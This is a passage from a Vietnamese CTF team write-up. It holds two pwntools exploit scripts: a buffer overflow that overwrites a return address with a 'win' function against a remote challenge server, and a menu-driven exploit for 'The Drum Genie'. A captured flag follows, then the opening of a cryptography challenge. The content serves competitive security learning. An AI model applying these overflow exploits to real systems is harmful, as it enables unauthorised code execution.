 ```python
#!/usr/bin/python3

from pwn import *

elf = ELF("./unknown-stone")
io = remote("0.cloud.chals.io", 19873)
io.recvuntil(b'> ')
io.sendline(b'\x90'*120 + p64(elf.sym['win']))
io.interactive()
io.close()
```

## The Drum Genie

Vì thời gian khá gấp gáp nên tụi mình đã không kịp writeup đầy đủ cho bài này, tuy nhiên thì tụi mình vẫn còn giữ lại script:

```python
from pwn import *
p = process('./genie_of_past')
sla = lambda msg, data: p.sendlineafter(msg, data)
sla(b'> ', b'1')
sla(b'> ', b'1')
sla(b'> ', b'1')
sla(b'> ', b'1')
sla(b'> ', b'1')
sla(b'> ', b'1')
sla(b'> ', b'2')
sla(b'> ', b'0')
sla(b'> ', b'2')
sla(b'> ', b'1')
sla(b'> ', b'1')
sla(b'> ', b'1')
sla(b'> ', b'1')
sla(b'> ', b'\x90'*0x200)
sla(b'> ', b'4')
p.interactive()
```

> **FLAG: flag{36135eb45838f06ffe495e755d4ba960}**

# Cryptography

> Hiện tại trong team vẫn còn đang khá thiếu người chơi mảng này nên phần này tụi mình sẽ không nói đến các kỹ năng và lý thuyết chuyên sâu nhé :3

## Independence

Trong bài này ta sẽ được đưa cho một file **Python** chứa một hàm dùng để mã hoá (`encrypt`) và tạo ra `keygen` cùng với một file `out.txt` chứa văn bản đã mã hoá
